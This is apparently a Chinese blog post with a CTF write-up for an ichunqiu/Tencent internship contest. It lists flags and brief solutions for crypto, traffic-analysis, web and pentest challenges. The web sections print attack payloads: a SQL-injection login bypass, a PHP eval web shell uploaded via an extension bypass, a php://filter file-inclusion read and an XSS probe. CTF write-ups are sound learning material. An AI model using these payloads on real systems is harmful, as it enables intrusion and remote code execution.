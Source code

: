 ```yaml
---
layout: post
title: ichunqiu腾讯实习三十强竞赛部分题目题解
tags:
- Writeup
categories: Writeup
description: ichunqiu腾讯实习三十强竞赛部分题目题解
---
```


此次比赛前期在ichunqiu上学习21天，然后比赛，最终前三十可以去腾讯总部培训，然而我第三十一名

<!-- more -->
###基础题：
####1. 
flag{a2714506-b3e2-417d-bac9-e8d078ed4d96}
   直接查看源码
   
####2. 
flag{455ec542-5f3e-4cd6-beb0-26a5e67338fe}
  直接查看源码
  
####3. 
flag{77f9eb43-9aeb-4502-af45-c590034d9ea9}
   源码中发现一个关键的js链接`http://106.75.8.230:18255/js/5.js`，[在线运行](https://jsfiddle.net/)一下，注意将eval换成alert，得到弹窗代码`function aaa(){eval("32:64:39:30:61:39:30:38:31:63:62:38:64:61:63:38:61:64:65:65:61:34:63:33:61:66:30:33:34:39:32:61")}`，将十六进制数转成ascii码，得到`2d90a9081cb8dac8adeea4c3af03492a`，再md5解密得到`zf651q`
    
####4. 
flag{52bab258-a1a6-46c3-b621-f6e251484a1f}
   源码给出了一串unicode编码字符串`&#102;&#108;&#97;&#103;&#123;&#53;&#50;&#98;&#97;&#98;&#50;&#53;&#56;&#45;&#97;&#49;&#97;&#54;&#45;&#52;&#54;&#99;&#51;&#45;&#98;&#54;&#50;&#49;&#45;&#102;&#54;&#101;&#50;&#53;&#49;&#52;&#56;&#52;&#97;&#49;&#102;&#125;`，[在线解密](http://tool.chinaz.com/tools/unicode.aspx)得到flag
        
####5. 
flag{dd97563d-e256-4b08-b5cb-a86ea77ade4f}
   源码得到两个字符串分别base64解密后填入登陆框即可
        pass='MWMzNmNkNTI=';           --》1c36cd52
        pass1='NDFiNzczNWVlZmRj';      --》41b7735eefdc 

        
###加密解密
####1. 
flag{91b19e02-4fb7-45b6-a59b-4edac2b1d2ad}
   凯撒加密13位（也叫ROT-13加密）
        
####2. 
flag{9b8eaec9-e46c-438c-81f8-b39e45c4b490}
 4d1e3cbl10c094e4f7c704232956bc34 （md5中0-9a-zA-Z）第八位是L的小写有错，换成数字1
        4d1e3cb110c094e4f7c704232956bc34 --> 企鹅

####3. 
flag{7eef569a-0e3a-4036-9965-22830e250eae}
        import base64
        str = "6ZWc6Iqx5_C05pyI"
        for x in range(1,128):
            str = str[:9] + chr(x) + str[10:]
            try:
                    #print base64.b64decode(str)
                    print str
            except:
                    pass
   然后用burp爆破
   结果6ZWc6Iqx5rC05pyI 

#### 4. 
flag{faa8b1fd-0834-47fe-a019-3f6ab36ef510}
   培根密码
        我<i>年</i>轻时<i>注</i>意到，<i>我</i>每做十<i>件事</i>有九件<i>不成</i>功，于是我就十倍<i>地</i>去努力干下去。—— 萧<i>伯纳</i>
    直体对应A ，斜体对应B
    ABAAB AABAA ABBAA ABBAA AAAAA BAAAA AAABB  -->  kennard

    
###流量分析
####1. 
flag{@G00d_L4ck_H3r3@}
   wireshark过滤器输入：(data-text-lines and frame.len > 312 and ip.src == 192.168.40.42) or (ip.src == 192.168.169.130 and http and frame.len > 78)可以看到对话内容
        保存upload的文件，扣出图片，然后打开，在昆明那儿有flag

####2. 
flag{你自己看着办}
   导出倒数第三个包，记事本打开就能看见flag
        
####3. 
flag{6c0d68b0-c638-4fb5-a8f5-fdc756daf7e0}
   过滤器输入：http
   导出最后一个http数据包，打开就能看见flag

###Web安全
####1. 
flag{76c78577-6e75-420d-8837-a44613bb5f3a}
 万能密码登陆 `root' or '1=1#`，然后进入flag目录读取flag
        
####2. 
flag{f6a5f550-4c06-435c-ae9a-8ef489386af6}
 上传绕过，选择一个图片上传，抓包，把图片名称改为   xx.pHp5， 内容为 <?php @eval($_POST[value]);?>
        
####3. 
flag{2d33a69d-411f-411a-8da4-238c8adeb4fb}
在url后面加上 /gift.rar 开始下载 gift.rar， flag在rar中
    
####4. 
flag{44f49248-d10e-40c0-976a-3b45b184f04e}
用dirsearch 扫描目录得到sql.sql文件存在，访问得到flag    `http://106.75.8.230:10211/sql.sql`
       

###渗透测试
####1. 
flag{7450e858-38f5-4d31-83c2-37d8c8e5792d}
原题http://bbs.ichunqiu.com/thread-1821-1-1.html
    
####2. 
flag{7733138d-8f8e-4c42-b4c1-5e3e003f6502} 
把cookie改成admin1的md5值
        
####3. 
flag{3b456e00-954b-4290-92eb-966e38750477}
乱码提示flag、php、file，于是通过filter读取文件源码，`/index.php?file=php://filter/convert.base64-encode/resource=index.php`，得到的base64解密得到
```
>>> s1 = "PD9waHAgaW5jbHVkZSgkX0dFVFsnZmlsZSddICk7ID8+IA0K1dK1vbWxx7DOxLz+vNDPwrXEZmxhZ87EvP6jqHBocKOpo6zOxLz+w/vOqjTOu8r919a1xGZpbGU="
>>> print base64.b64decode(s1)
	<?php include($_GET['file'] ); ?>找到当前文件夹下的flag文件（php），文件名为4位数字的file
```        
爆破四位数字名字的文件得到1234.php,`/index.php?file=php://filter/convert.base64-encode/resource=1234.php`，得到结果解密得<?php //flag{3b456e00-954b-4290-92eb-966e38750477};?>

####4. 
flag{c0a8ed72-7af9-4444-a880-47b8f444b9d4}
        输入框xss，输入<script>alert(/xss/)</script>
